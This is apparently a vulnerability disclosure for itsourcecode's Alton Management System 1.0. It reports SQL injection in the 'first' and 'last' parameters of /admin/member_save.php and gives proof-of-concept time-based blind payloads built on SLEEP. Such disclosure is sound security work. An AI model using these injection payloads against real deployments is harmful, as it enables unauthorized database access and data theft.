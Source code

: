 # Vendor

itsourcecode

# Product

Alton Management System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2020/02/altonsystem.zip

# Description

Log in as an administrator user, access the "/admin/member_save.php" page. This page can pass in the "last" and "first" parameters, both of which can lead to SQL injection vulnerabilities due to lax filtering.
<img width="965" alt="image" src="https://github.com/user-attachments/assets/99282e55-6259-41aa-8aad-e49cca31aef5">

# Poc

```
Parameter: first (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: last=123&first=123' AND (SELECT 9651 FROM (SELECT(SLEEP(5)))LDVG) AND 'Zjoq'='Zjoq&contact=123&address=123

Parameter: last (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: last=123' AND (SELECT 9207 FROM (SELECT(SLEEP(5)))IyrR) AND 'YcaK'='YcaK&first=123&contact=123&address=123
```
